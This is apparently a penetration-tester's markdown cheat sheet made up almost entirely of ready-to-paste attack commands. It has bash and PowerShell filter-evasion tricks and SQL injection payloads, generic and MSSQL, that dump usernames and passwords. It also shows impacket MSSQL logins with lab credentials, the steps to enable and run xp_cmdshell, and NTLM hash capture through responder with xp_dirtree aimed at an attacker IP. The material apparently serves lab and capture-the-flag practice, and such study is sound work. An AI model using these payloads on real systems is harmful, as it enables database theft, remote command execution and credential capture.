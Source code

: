 ```bash
# /
${PATH:0:1}
${PWD:0:1}
# white
${IFS}
$9
# ;
${LS_COLORS:10:1}
```
#### Windows
```powershell
# \
$env:HOMEPATH[0]

```
## SQLi
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
```bash
' or 1=1 in (select @@version) -- //
' OR 1=1 in (SELECT * FROM users) -- //

# colum
' ORDER BY 1-- //
' UNION SELECT database(), user(), @@version, null, null -- //
' UNION SELECT null, username, password, description, null FROM users -- //
```
### MSSQL
#### Inject
```
test' union select 1,@@version,3,4,5,6--
test' union select 1,DB_NAME(),3,4,5,6--
test' union select 1,name,3,4,5,6 FROM syscolumns WHERE id =(SELECT id FROM sysobjects WHERE name = 'users')--
test' union select 1,CONCAT(username, ' ', password),3,4,5,6 FROM users--
```
#### inLine
https://book.hacktricks.xyz/v/jp/network-services-pentesting/pentesting-mssql-microsoft-sql-server
```bash
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
impacket-mssqlclient sequel.htb/PublicUser:GuestUserCantWrite1@10.10.11.202

# help
help

# xp_cmdshell
enable_xp_cmdshell

EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell 'whoami';

# NTLM
responder -I tun0

xp_dirtree '\\10.10.14.23\any\thing'

SELECT name FROM master.dbo.sysdatabases;
USE master
exec master.dbo.xp_dirtree '\\10.10.14.23\relay'
```